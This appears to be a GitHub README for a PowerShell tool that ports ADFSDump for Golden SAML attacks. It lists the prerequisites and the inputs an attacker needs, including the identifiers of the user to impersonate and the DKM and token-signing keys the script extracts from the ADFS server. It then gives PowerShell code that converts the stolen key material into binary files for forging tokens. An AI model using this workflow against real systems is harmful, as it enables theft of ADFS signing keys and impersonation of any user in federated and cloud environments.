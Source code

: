 # GoldenSAML-PS
I can't take credit for the hard work done in building [ADFSDump](https://github.com/mandiant/ADFSDump) but this is a PowerShell port of it using native functions. 

## Pre-Reqs
You'll need a few pre-reqs to install on the box you're running this on so it's not 100% self contained, these are as follows:
- Install-Module -Name  ActiveDirectory
- Install-Module -Name SqlServer

You'll also need the following values for the GoldenSAML attack:
```
User Email/UPN - User to be impersonated
User ObjectGUID - Respective GUID for said user to be impersonated
DKM Key - Gathered using this script
TKS Key - Gathered using this script
Domain - Domain as seen by STS/ADFS/O365
```

## Usage 
To execute this you'll need to be running in the context of the ADFS Service account and on the server where ADFS Lives. Once you've got both the encrypted blob and the DKM key from the script you'll need to run the following to convert them:

```
function Decode-Base64ToFile {
    param (
        [string]$base64String,
        [string]$outputFile
    )
    $bytes = [System.Convert]::FromBase64String($base64String)
    [System.IO.File]::WriteAllBytes($outputFile, $bytes)
}

function Convert-HexToBinaryFile {
    param (
        [string]$hexString,
        [string]$outputFile
    )
    $hexString = $hexString -replace '-', ''
    $bytes = for ($i = 0; $i -lt $hexString.Length; $i += 2) {
        [Convert]::ToByte($hexString.Substring($i, 2), 16)
    }
    [System.IO.File]::WriteAllBytes($outputFile, $bytes)
}

$base64String = Get-Content -Path "TKSKey.txt" -Raw
Decode-Base64ToFile -base64String $base64String -outputFile "TKSKey.bin"

$hexString = Get-Content -Path "DKM.txt" -Raw
Convert-HexToBinaryFile -hexString $hexString -outputFile "DKM.bin"
```

I'll link these two together later but save the DKM to DKM.txt and the encrytped b64 blob to TKSKey.txt, the PS will do the rest :).
